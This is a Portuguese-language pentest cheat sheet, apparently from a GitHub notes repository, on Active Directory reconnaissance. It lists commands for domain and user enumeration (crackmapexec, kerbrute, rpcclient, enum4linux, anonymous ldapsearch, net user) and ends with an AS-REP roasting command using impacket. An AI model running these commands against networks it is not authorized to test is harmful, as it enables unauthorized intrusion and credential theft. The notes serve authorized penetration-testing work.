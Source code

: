Utilizar também

    crackmapexec smb <hostname_dc>


**COM ACESSO NA MÁQUINA**

No Windows

    [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

ou

*Vale considerar que este comando só funciona se a máquina já está no domínio*

    whoami

### Enumerar usuários

**SEM ACESSO INICIAL NA MÁQUINA**

    kerbrute userenum -d dominio.local /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

ou

    rpcclient -U <domain>/<usuario> <hostname_dc>
    enumdomusers
    srvinfo
    querydominfo
    enumdomgroups
    querygroup 0x200

    netshareenum
    netshareenumall

ou 

    enum4linux -a <hostname_dc>

Via SMB

    crackmapexec smb <hostname> --users

Ldapsearch

    ldapsearch -x -H ldap://<hostname> -D '' -w '' -b "DC=<domain_name>,DC=<tld>"

**COM ACESSO NA MÁQUINA**

     net user
     net user /domain
     
     net user username /domain


### AsRep Roasting

    impacket-GetNPUsers -usersfile usernames.txt domain.local/ --dc-host <hostname_dc>

Com base nessa enumeração, provável que já teremos alguma credencial válida no domínio, então seguimos para os [próximos passos aqui.](../2_Exploracao/Active%20Directory.md)
